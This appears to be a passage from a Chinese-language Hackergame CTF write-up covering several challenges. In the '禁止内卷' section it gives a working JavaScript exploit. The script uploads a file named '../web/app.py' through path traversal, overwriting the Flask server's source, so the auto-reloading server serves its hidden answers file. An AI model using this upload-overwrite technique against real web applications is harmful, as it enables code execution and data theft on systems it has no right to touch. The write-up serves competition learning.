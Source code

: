 ```py

print("".join(['b', 'B'][(flip>>i)&1] for i in range(48)))
```

还原之后填回去再像上一个小题一样补空格就能得到 flag。

## 禁止内卷

既然都开 `--reload` 了，自然是要想办法覆盖服务端源码。由于上传文件时服务端直接 `join` 路径了，那我上传一个 `../web/app.py` 文件就可以直接覆盖服务端源码。由于正常通过浏览器上传无法让文件名带斜杠，我们需要写脚本上传。代码如下

```js
code=`
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

@app.route("/", methods=["GET"])
def index():
    with open("answers.json") as f:
        return f.read()
`
fetch("/submit", {
    "body": (()=>{const data = new FormData();data.append('file',new File([code],"../web/app.py"));return data})(),
    "method": "POST",
    "mode": "cors",
    "credentials": "include"
  });
```

完成后刷新就能看到原始答案文件了，之后执行如下代码就能提取 flag：
```js
JSON.parse(document.body.innerText).map(n=>String.fromCharCode(n+65)).join("")
```

## 零知识数独 - 数独高手

为什么要有这一小题？为什么要我随便找个在线 solver 做苦力？

顺带一提，我用的是 [f-puzzles](https://www.f-puzzles.com/){: target="_blank" rel="noopener"} 附带的 solver。

## 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」 - 「行吧就算标题可以很长但是 flag 一定要短点」

本题目不需要任何 AI 知识。只需要借助 [Nutrimatic 找词工具](https://nutrimatic.org/){: target="_blank" rel="noopener"} 的力量，你就能完全还原原文。对于一些比较不熟悉的用法也可以通过搜索连续的多个词来确定。
